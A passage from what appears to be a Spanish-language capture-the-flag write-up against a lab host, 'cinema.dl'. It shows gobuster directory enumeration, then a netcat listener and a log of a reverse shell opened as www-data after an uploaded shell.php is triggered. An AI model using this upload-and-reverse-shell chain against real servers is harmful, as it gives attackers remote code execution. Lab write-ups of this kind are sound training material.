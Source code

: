 Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cinema.dl/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                dic.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/andrewgarfield       (Status: 301) [Size: 315] [--> http://cinema.dl/andrewgarfield/]
Progress: 48 / 52 (92.31%)
===============================================================
Finished
===============================================================
```

Vemos que nos encuentra uno llamado `/andrewgarfield` y si entramos en el:

```
URL = http://cinema.dl/andrewgarfield/
```

<figure><img src="../../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>

Veremos que es donde esta subido el archivo que se descargo el `problem_url=` por lo que nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y pulsamos en el `shell.php`, si volvemos a la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.186] from (UNKNOWN) [172.17.0.3] 54126
whoami
www-data
```
